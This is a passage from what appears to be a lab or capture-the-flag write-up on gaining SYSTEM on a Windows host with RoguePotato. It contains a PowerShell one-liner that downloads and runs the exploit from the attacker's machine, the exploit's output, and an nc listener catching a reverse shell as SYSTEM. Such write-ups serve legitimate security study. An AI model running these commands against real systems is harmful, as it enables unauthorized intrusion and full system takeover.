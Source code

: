 I tested `rev.bat` by just running it and making sure I got a shell back.

Now I’ll make sure to run the commands to download and then execute `RoguePotato.exe` in one line.

### Success

Now I have everything in place to run RoguePotato. For speed, I’ll run one command with stacked commands to download and run it:

```

c:\ProgramData>powershell -c wget 10.10.14.24/RoguePotato.exe -outfile r.exe; .\r.exe -r 10.10.14.24 -l 9999 -e C:\programdata\rev.bat
[+] Starting RoguePotato...
[*] Creating Rogue OXID resolver thread
[*] Creating Pipe Server thread..
[*] Creating TriggerDCOM thread...
[*] Listening on pipe \\.\pipe\RoguePotato\pipe\epmapper, waiting for client to connect
[*] Calling CoGetInstanceFromIStorage with CLSID:{4991d34b-80a1-4291-83b6-3328366b9097}
[*] Starting RogueOxidResolver RPC Server listening on port 9999 ... 
[*] IStoragetrigger written:104 bytes
[*] SecurityCallback RPC call
[*] ResolveOxid2 RPC call, this is for us!
[*] ResolveOxid2: returned endpoint binding information = ncacn_np:localhost/pipe/RoguePotato[\pipe\epmapper]
[*] Client connected!
[+] Got SYSTEM Token!!!
[*] Token has SE_ASSIGN_PRIMARY_NAME, using CreateProcessAsUser() for launching: C:\programdata\rev.bat
[+] RoguePotato gave you the SYSTEM powerz :D

```

Back at `nc`, I’ve got a shell as system:

```

root@kali# rlwrap nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.203.
Ncat: Connection from 10.10.10.203:54454.
Microsoft Windows [Version 10.0.17763.1282]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\ProgramData>whoami
nt authority\system

```